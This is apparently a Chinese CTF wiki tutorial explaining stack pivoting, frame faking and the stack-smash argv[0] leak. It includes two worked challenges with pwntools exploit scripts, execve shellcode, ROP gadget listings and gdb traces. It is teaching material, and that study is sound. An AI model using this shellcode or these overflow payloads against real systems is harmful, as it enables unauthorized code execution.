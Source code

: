 花式栈溢出技巧
==============

stack privot
------------

原理
~~~~

stack privot，正如它所描述的，该技巧就是劫持栈指针指向攻击者所能控制的内存处，然后再在相应的位置进行ROP。一般来说，我们可能在以下情况需要使用stack privot

-  可以控制的栈溢出的字节数较少，难以构造较长的ROP链
-  开启了PIE保护，栈地址未知，我们可以将栈劫持到已知的区域。
-  其它漏洞难以利用，我们需要进行转换，比如说将栈劫持到堆空间，从而利用堆漏洞

此外，利用stack privot有以下几个要求

-  可以控制程序执行流。

-  可以控制sp指针。一般来说，控制栈指针会使用ROP，常见的控制栈指针的gadgets一般是

.. code:: asm

    pop rsp/esp

当然，还会有一些其它的姿势。比如说libc\_csu\_init中的gadgets，我们通过偏移就可以得到控制rsp指针。上面的是正常的，下面的是偏移的。

.. code:: asm

    gef➤  x/7i 0x000000000040061a
    0x40061a <__libc_csu_init+90>:  pop    rbx
    0x40061b <__libc_csu_init+91>:  pop    rbp
    0x40061c <__libc_csu_init+92>:  pop    r12
    0x40061e <__libc_csu_init+94>:  pop    r13
    0x400620 <__libc_csu_init+96>:  pop    r14
    0x400622 <__libc_csu_init+98>:  pop    r15
    0x400624 <__libc_csu_init+100>: ret    
    gef➤  x/7i 0x000000000040061d
    0x40061d <__libc_csu_init+93>:  pop    rsp
    0x40061e <__libc_csu_init+94>:  pop    r13
    0x400620 <__libc_csu_init+96>:  pop    r14
    0x400622 <__libc_csu_init+98>:  pop    r15
    0x400624 <__libc_csu_init+100>: ret

此外，还有更加高级的fake frame。

-  存在可以控制内容的内存，一般有如下
-  bss段。由于进程按页分配内存，分配给bss段的内存大小至少一个页(4k,0x1000)大小。然而一般bss段的内容用不了这么多的空间，并且bss段分配的内存页拥有读写权限。
-  heap。但是这个需要我们能够泄露堆地址。

示例
~~~~

例1
^^^

这里我们以\ **X-CTF Quals 2016 - b0verfl0w**\ 为例，进行介绍。首先，查看程序的安全保护，如下

.. code:: shell

    ➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ checksec b0verfl0w                 
        Arch:     i386-32-little
        RELRO:    Partial RELRO
        Stack:    No canary found
        NX:       NX disabled
        PIE:      No PIE (0x8048000)
        RWX:      Has RWX segments

可以看出源程序为32位，也没有开启NX保护，下面我们来找一下程序的漏洞

.. code:: c

    signed int vul()
    {
      char s; // [sp+18h] [bp-20h]@1

      puts("\n======================");
      puts("\nWelcome to X-CTF 2016!");
      puts("\n======================");
      puts("What's your name?");
      fflush(stdout);
      fgets(&s, 50, stdin);
      printf("Hello %s.", &s);
      fflush(stdout);
      return 1;
    }

可以看出，源程序存在栈溢出漏洞。但是其所能溢出的字节就只有50-0x20-4=14个字节，所以我们很难执行一些比较好的ROP。这里我们就考虑stack
privot。由于程序本身并没有开启堆栈保护，所以我们可以在栈上布置shellcode并执行。基本利用思路如下

-  利用栈溢出布置shellcode
-  控制eip指向shellcode处

第一步，还是比较容易地，直接读取即可，但是由于程序本身会开启ASLR保护，所以我们很难直接知道shellcode的地址。但是栈上相对偏移是固定的，所以我们可以利用栈溢出对esp进行操作，使其指向shellcode处，并且直接控制程序跳转至esp处。那下面就是找控制程序跳转到esp处的gadgets了。

.. code:: shell

    ➜  X-CTF Quals 2016 - b0verfl0w git:(iromise) ✗ ROPgadget --binary b0verfl0w --only 'jmp|ret'         
    Gadgets information
    ============================================================
    0x08048504 : jmp esp
    0x0804836a : ret
    0x0804847e : ret 0xeac1

    Unique gadgets found: 3

这里我们发现有一个可以直接跳转到esp的gadgets。那么我们可以布置payload如下

.. code:: text

    shellcode|padding|fake ebp|0x08048504|set esp point to shellcode and jmp esp

那么我们payload中的最后一部分改如何设置esp呢，可以知道

-  size(shellcode+padding)=0x20
-  size(fake ebp)=0x4
-  size(0x08048504)=0x4

所以我们最后一段需要执行的指令就是

.. code:: asm

    sub 0x28,esp
    jmp esp

所以最后的exp如下

.. code:: python

    from pwn import *
    sh = process('./b0verfl0w')

    shellcode_x86 = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
    shellcode_x86 += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
    shellcode_x86 += "\x0b\xcd\x80"

    sub_esp_jmp = asm('sub esp, 0x28;jmp esp')
    jmp_esp = 0x08048504
    payload = shellcode_x86 + (
        0x20 - len(shellcode_x86)) * 'b' + 'bbbb' + p32(jmp_esp) + sub_esp_jmp
    sh.sendline(payload)
    sh.interactive()

例2-转移堆
^^^^^^^^^^

待。

题目
~~~~

-  EkoPartyCTF 2016 fuckzing-exploit-200

frame faking
------------

正如这个技巧名字所说的那样，这个技巧就是构造一个虚假的栈帧来控制程序的执行流。

原理
~~~~

概括地讲，我们在之前讲的栈溢出不外乎两种方式

-  控制程序EIP
-  控制程序EBP

其最终都是控制程序的执行流。在frame faking中，我们所利用的技巧便是同时控制EBP与EIP，这样我们在控制程序执行流的同时，也改变程序栈帧的位置。一般来说其payload如下

::

    buffer padding|fake ebp|leave ret addr|

即我们利用栈溢出将栈上构造为如上格式。这里我们主要接下后面两个部分

-  函数的返回地址被我们覆盖为执行leave ret的地址，这就表明了函数在正常执行完自己的leave ret后，还会再次执行一次leave ret。
-  其中fake ebp为我们构造的栈帧的基地址，需要注意的是这里是一个地址。一般来说我们构造的假的栈帧如下

::

    fake ebp
    |
    v
    ebp2|target function addr|leave ret addr|arg1|arg2

这里我们的fake ebp指向ebp2，即它为ebp2所在的地址。通常来说，这里都是我们能够控制的可读的内容。在我们介绍基本的控制过程之前，我们还是有必要说一下，函数的入口点与出口点的基本操作

入口点

::

    push ebp  # 将ebp压栈
    move esp, ebp #将esp的值赋给ebp

出口点

::

    leave
    ret #pop eip，弹出栈顶元素作为程序下一个执行地址

其中leave指令相当于

::

    move ebp, esp # 将ebp的值赋给esp
    pop ebp #弹出ebp

下面我们来仔细说一下基本的控制过程。

1. 在有栈溢出的程序执行leave时，其分为两个步骤

-  move ebp, esp ，这会将esp也指向当前栈溢出漏洞的ebp基地址处。
-  pop ebp， 这会将栈中存放的fake ebp的值赋给ebp。即执行完指令之后，ebp便指向了ebp2，也就是保存了ebp2所在的地址。

2. 执行ret指令，会再次执行leave ret指令。

3. 执行leave指令，其分为两个步骤

-  move ebp, esp ，这会将esp指向ebp2。
-  pop ebp，此时，会将ebp的内容设置为ebp2的值，同时esp会指向target function。

4. 执行ret指令，这时候程序就会执行targetfunction，当其进行程序的时候会执行

-  push ebp,会将ebp2值压入栈中，

-  move esp, ebp，将ebp指向当前基地址。

此时的栈结构如下

::

    ebp
    |
    v
    ebp2|leave ret addr|arg1|arg2

5. 当程序执行师，其会正常申请空间，同时我们在栈上也安排了该函数对应的参数，所以程序会正常执行。

6. 程序结束后，其又会执行两次 leave ret addr，所以如果我们在ebp2处布置好了对应的内容，那么我们就可以一直控制程序的执行流程。

可以看出在fake frame中，我们有一个需求就是，我们必须得有一块可以写的内存，并且我们还知道这块内存的地址，这一点与stack privot相似。

例子
~~~~

目前来说，我在exploit-exercise的fusion level2中利用过这个技巧，其它地方暂时还未遇到，遇到的时候再进行补充。

题
~~

参考阅读

-  http://www.xfocus.net/articles/200602/851.html
-  http://phrack.org/issues/58/4.html

Stack smash
-----------

原理
~~~~

在程序加了canary保护之后，如果我们读取的buffer覆盖了对应的值时，程序就会报错，而一般来说我们并不会关心报错信息。而stack
smash技巧则就是利用打印这一信息的程序来得到我们想要的内容。这是因为在程序发现canary保护之后，如果发现canary被修改的话，程序就会执行\_\_stack\_chk\_fail函数来打印argv[0]指针所指向的字符串，正常情况下，这个指针指向了程序名。其代码如下

.. code:: c

    void __attribute__ ((noreturn)) __stack_chk_fail (void)
    {
      __fortify_fail ("stack smashing detected");
    }
    void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
    {
      /* The loop is added only to keep gcc happy.  */
      while (1)
        __libc_message (2, "*** %s ***: %s terminated\n",
                        msg, __libc_argv[0] ?: "<unknown>");
    }

所以说如果我们利用栈溢出覆盖argv[0]为我们想要输出的字符串的地址，那么在\_\_fortify\_fail函数中就会输出我们想要的信息。

例子
~~~~

这里，我们以2015年32C3 CTF smashes为例进行介绍，该题目在jarvisoj上有复现。

确定保护
^^^^^^^^

可以看出程序为64位，主要开启了Canary保护以及NX保护，以及FORTIFY保护。

.. code:: shell

    ➜  stacksmashes git:(master) ✗ checksec smashes
        Arch:     amd64-64-little
        RELRO:    No RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      No PIE (0x400000)
        FORTIFY:  Enabled

分析程序
^^^^^^^^

ida看一下

.. code:: c

    __int64 sub_4007E0()
    {
      __int64 v0; // rax@1
      __int64 v1; // rbx@2
      int v2; // eax@3
      __int64 v4; // [sp+0h] [bp-128h]@1
      __int64 v5; // [sp+108h] [bp-20h]@1

      v5 = *MK_FP(__FS__, 40LL);
      __printf_chk(1LL, (__int64)"Hello!\nWhat's your name? ");
      LODWORD(v0) = _IO_gets((__int64)&v4);
      if ( !v0 )
    LABEL_9:
        _exit(1);
      v1 = 0LL;
      __printf_chk(1LL, (__int64)"Nice to meet you, %s.\nPlease overwrite the flag: ");
      while ( 1 )
      {
        v2 = _IO_getc(stdin);
        if ( v2 == -1 )
          goto LABEL_9;
        if ( v2 == '\n' )
          break;
        byte_600D20[v1++] = v2;
        if ( v1 == ' ' )
          goto LABEL_8;
      }
      memset((void *)((signed int)v1 + 0x600D20LL), 0, (unsigned int)(32 - v1));
    LABEL_8:
      puts("Thank you, bye!");
      return *MK_FP(__FS__, 40LL) ^ v5;
    }

很显然，程序在\_IO\_gets((\_\_int64)&v4);存在栈溢出。

此外，程序中还提示要overwrite flag。而且发现程序很有意思的在while循环之后执行了这条语句

.. code:: c

      memset((void *)((signed int)v1 + 0x600D20LL), 0, (unsigned int)(32 - v1));

又看了看对应地址的内容，可以发现如下内容，说明程序的flag就在这里啊。

::

    .data:0000000000600D20 ; char aPctfHereSTheFl[]
    .data:0000000000600D20 aPctfHereSTheFl db 'PCTF{Here',27h,'s the flag on server}',0

但是如果我们直接利用栈溢出输出该地址的内容是不可行的，这是因为我们读入的内容\ ``byte_600D20[v1++] = v2;``\ 也恰恰就是该块内存，这会直接将其覆盖掉，这时候我们就需要利用一个技巧了

-  在EFL内存映射时，bss段会被映射两次，所以我们可以使用另一处的地址来进行输出，可以使用gdb的find来进行查找。

确定flag地址
^^^^^^^^^^^^

我们把断点下载memset函数处，然后读取相应的内容如下

.. code:: asm

    gef➤  c
    Continuing.
    Hello!
    What's your name? qqqqqqq
    Nice to meet you, qqqqqqq.
    Please overwrite the flag: 222222222

    Breakpoint 1, __memset_avx2 () at ../sysdeps/x86_64/multiarch/memset-avx2.S:38
    38  ../sysdeps/x86_64/multiarch/memset-avx2.S: 没有那个文件或目录.
    ─────────────────────────────────────[ code:i386:x86-64 ]────
       0x7ffff7b7f920 <__memset_chk_avx2+0> cmp    rcx, rdx
       0x7ffff7b7f923 <__memset_chk_avx2+3> jb     0x7ffff7b24110 <__GI___chk_fail>
       0x7ffff7b7f929                  nop    DWORD PTR [rax+0x0]
     → 0x7ffff7b7f930 <__memset_avx2+0> vpxor  xmm0, xmm0, xmm0
       0x7ffff7b7f934 <__memset_avx2+4> vmovd  xmm1, esi
       0x7ffff7b7f938 <__memset_avx2+8> lea    rsi, [rdi+rdx*1]
       0x7ffff7b7f93c <__memset_avx2+12> mov    rax, rdi
    ───────────────────────────────────────────────────────────────────[ stack ]────
    ['0x7fffffffda38', 'l8']
    8
    0x00007fffffffda38│+0x00: 0x0000000000400878  →   mov edi, 0x40094e  ← $rsp
    0x00007fffffffda40│+0x08: 0x0071717171717171 ("qqqqqqq"?)
    0x00007fffffffda48│+0x10: 0x0000000000000000
    0x00007fffffffda50│+0x18: 0x0000000000000000
    0x00007fffffffda58│+0x20: 0x0000000000000000
    0x00007fffffffda60│+0x28: 0x0000000000000000
    0x00007fffffffda68│+0x30: 0x0000000000000000
    0x00007fffffffda70│+0x38: 0x0000000000000000
    ──────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x7ffff7b7f930 → Name: __memset_avx2()
    [#1] 0x400878 → mov edi, 0x40094e
    ──────────────────────────────────────────────────────────────────────────────
    gef➤  find 22222
    Argument required (expression to compute).
    gef➤  find '22222'
    No symbol "22222" in current context.
    gef➤  grep '22222'
    [+] Searching '22222' in memory
    [+] In '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes'(0x600000-0x601000), permission=rw-
      0x600d20 - 0x600d3f  →   "222222222's the flag on server}" 
    [+] In '[heap]'(0x601000-0x622000), permission=rw-
      0x601010 - 0x601019  →   "222222222" 
    gef➤  grep PCTF
    [+] Searching 'PCTF' in memory
    [+] In '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes'(0x400000-0x401000), permission=r-x
      0x400d20 - 0x400d3f  →   "PCTF{Here's the flag on server}" 

可以看出我们读入的2222已经覆盖了0x600d20处的flag，但是我们在内存的0x400d20处仍然找到了这个flag的备份，所以我们还是可以将其输出。这里我们已经确定了flag的地址。

确定偏移
^^^^^^^^

下面，我们确定argv[0]距离读取的字符串的偏移。

首先下断点在main函数入口处，如下

.. code:: asm

    gef➤  b *0x00000000004006D0
    Breakpoint 1 at 0x4006d0
    gef➤  r
    Starting program: /mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/stacksmashes/smashes 

    Breakpoint 1, 0x00000000004006d0 in ?? ()
     code:i386:x86-64 ]────
         0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
         0x4006c6 <_IO_gets@plt+6> push   0x9
         0x4006cb <_IO_gets@plt+11> jmp    0x400620
     →   0x4006d0                  sub    rsp, 0x8
         0x4006d4                  mov    rdi, QWORD PTR [rip+0x200665]        # 0x600d40 <stdout>
         0x4006db                  xor    esi, esi
         0x4006dd                  call   0x400660 <setbuf@plt>
    ──────────────────────────────────────────────────────────────────[ stack ]────
    ['0x7fffffffdb78', 'l8']
    8
    0x00007fffffffdb78│+0x00: 0x00007ffff7a2d830  →  <__libc_start_main+240> mov edi, eax    ← $rsp
    0x00007fffffffdb80│+0x08: 0x0000000000000000
    0x00007fffffffdb88│+0x10: 0x00007fffffffdc58  →  0x00007fffffffe00b  →  "/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/exam[...]"
    0x00007fffffffdb90│+0x18: 0x0000000100000000
    0x00007fffffffdb98│+0x20: 0x00000000004006d0  →   sub rsp, 0x8
    0x00007fffffffdba0│+0x28: 0x0000000000000000
    0x00007fffffffdba8│+0x30: 0x48c916d3cf726fe3
    0x00007fffffffdbb0│+0x38: 0x00000000004006ee  →   xor ebp, ebp
    ──────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x4006d0 → sub rsp, 0x8
    [#1] 0x7ffff7a2d830 → Name: __libc_start_main(main=0x4006d0, argc=0x1, argv=0x7fffffffdc58, init=<optimized out>, fini=<optimized out>, rtld_fini=<optimized out>, stack_end=0x7fffffffdc48)
    ---Type <return> to continue, or q <return> to quit---
    [#2] 0x400717 → hlt 

可以看出0x00007fffffffe00b指向程序名，其自然就是argv[0]，所以我们修改的内容就是这个地址。同时0x00007fffffffdc58处保留着该地址，所以我们真正需要的地址是0x00007fffffffdc58。

此外，根据汇编代码

.. code:: asm

    .text:00000000004007E0                 push    rbp
    .text:00000000004007E1                 mov     esi, offset aHelloWhatSYour ; "Hello!\nWhat's your name? "
    .text:00000000004007E6                 mov     edi, 1
    .text:00000000004007EB                 push    rbx
    .text:00000000004007EC                 sub     rsp, 118h
    .text:00000000004007F3                 mov     rax, fs:28h
    .text:00000000004007FC                 mov     [rsp+128h+var_20], rax
    .text:0000000000400804                 xor     eax, eax
    .text:0000000000400806                 call    ___printf_chk
    .text:000000000040080B                 mov     rdi, rsp
    .text:000000000040080E                 call    __IO_gets

我们可以确定我们读入的字符串的起始地址其实就是调用\_\_IO\_gets之前的rsp，所以我们把断点下在call处，如下

.. code:: asm

    gef➤  b *0x000000000040080E
    Breakpoint 2 at 0x40080e
    gef➤  c
    Continuing.
    Hello!
    What's your name? 
    Breakpoint 2, 0x000000000040080e in ?? ()
    ──────────────────────────[ code:i386:x86-64 ]────
         0x400804                  xor    eax, eax
         0x400806                  call   0x4006b0 <__printf_chk@plt>
         0x40080b                  mov    rdi, rsp
     →   0x40080e                  call   0x4006c0 <_IO_gets@plt>
       ↳    0x4006c0 <_IO_gets@plt+0> jmp    QWORD PTR [rip+0x20062a]        # 0x600cf0 <_IO_gets@got.plt>
            0x4006c6 <_IO_gets@plt+6> push   0x9
            0x4006cb <_IO_gets@plt+11> jmp    0x400620
            0x4006d0                  sub    rsp, 0x8
    ──────────────────[ stack ]────
    ['0x7fffffffda40', 'l8']
    8
    0x00007fffffffda40│+0x00: 0x0000ff0000000000     ← $rsp, $rdi
    0x00007fffffffda48│+0x08: 0x0000000000000000
    0x00007fffffffda50│+0x10: 0x0000000000000000
    0x00007fffffffda58│+0x18: 0x0000000000000000
    0x00007fffffffda60│+0x20: 0x0000000000000000
    0x00007fffffffda68│+0x28: 0x0000000000000000
    0x00007fffffffda70│+0x30: 0x0000000000000000
    0x00007fffffffda78│+0x38: 0x0000000000000000
    ───────────────────────────────────────────────────────────────────────────────────────────────────[ trace ]────
    [#0] 0x40080e → call 0x4006c0 <_IO_gets@plt>
    ─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
    gef➤  print $rsp
    $1 = (void *) 0x7fffffffda40

可以看出rsp的值为0x7fffffffda40，那么相对偏移为

.. code:: python

    >>> 0x00007fffffffdc58-0x7fffffffda40
    536
    >>> hex(536)
    '0x218'

利用程序
^^^^^^^^

我们构造利用程序如下

.. code:: python

    from pwn import *
    context.log_level = 'debug'
    smash = ELF('./smashes')
    if args['REMOTE']:
        sh = remote('pwn.jarvisoj.com', 9877)
    else:
        sh = process('./smashes')
    argv_addr = 0x00007fffffffdc58
    name_addr = 0x7fffffffda40
    flag_addr = 0x600D20
    another_flag_addr = 0x400d20
    payload = 'a' * (argv_addr - name_addr) + p64(another_flag_addr)
    sh.recvuntil('name? ')
    sh.sendline(payload)
    sh.recvuntil('flag: ')
    sh.sendline('bb')
    data = sh.recv()
    sh.interactive()

这里我们直接就得到了flag，没有出现网上说的得不到flag的情况。

题目
~~~~
